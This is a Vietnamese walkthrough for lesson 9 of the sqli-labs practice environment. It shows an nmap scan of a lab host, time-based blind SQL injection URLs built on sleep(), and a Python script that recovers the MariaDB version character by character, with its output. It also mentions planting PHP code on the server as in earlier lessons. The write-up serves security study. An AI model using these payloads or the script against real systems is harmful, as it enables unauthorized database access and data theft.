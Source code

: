 # Less 9

Đề yêu cầu nhập vào một giá trị

![](../images/sqli-labs/Less-9/01.png)

Nhập thử một vài giá trị

![](../images/sqli-labs/Less-9/02.png)

![](../images/sqli-labs/Less-9/03.png)

![](../images/sqli-labs/Less-9/04.png)

![](../images/sqli-labs/Less-9/05.png)

Ta có thể thấy trong bài này cho dù ta nhập vào bất kỳ giá trị nào nó cũng chỉ có một kết quả trả về. Như vậy ở bài này ta không thể khai thác được gì từ việc cho hiển thị lỗi và sử dụng boolean based. Trong bài này ta còn một cách cuối cùng là sử dụng time-based.

Trước tiên sử dụng `nmap` để xác định kiểu DBMS

```
nmap -sV --version-all 192.168.84.233

Starting Nmap 7.60 ( https://nmap.org ) at 2019-09-18 17:39 +07
Nmap scan report for 192.168.84.233
Host is up (0.014s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
3306/tcp open  mysql   MariaDB (unauthorized)
``` 

Ta thấy ở đây sử dụng DB là MariaDB. Ta thấy với MariaDB có các phiên bản là 5.x và 10.x. Như vậy ta có thể tận dụng vào đây để xác định câu query bên dưới backend

Sau một vài lần thử

```
http://192.168.84.233/sqli-labs/Less-9/?id=1" and if(substr((select @@version),1,1)='5',sleep(10),false) --+
```

![](../images/sqli-labs/Less-9/08.png)

Tiếp tục thử ta thấy được

```
http://192.168.84.233/sqli-labs/Less-9/?id=1' and if(substr((select @@version),1,1)='5',sleep(10),false) --+
```

![](../images/sqli-labs/Less-9/07.png)

Ta có thể kết luận là version của MariaDB sử dụng ở đây là bản 5.x và câu query có thể là

```
select * from table where id='$ID' limit 0,1
```

Như vậy ta có thể dựa vào đây để đọc các thông tin của DB giông như ở [Less-7](Less-7.md)

Ví dụ ta có thể show version của DBMS

```
import requests
import time
import string

url_1 = "http://192.168.84.233/sqli-labs/Less-9/?id=1' and if(substr(("
query = "select @@version"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả

```
python Sql-time-based.py 
5
.
5
.
6
0
-
m
a
r
i
a
d
b
+
```

Version là `5.5.60-mariadb`

Tương tự như vậy ta có thể show các thông tin khác như 2 bài trước. Và ta cũng có thể thêm vào server một đoạn code PHP như nhưng bài trước đó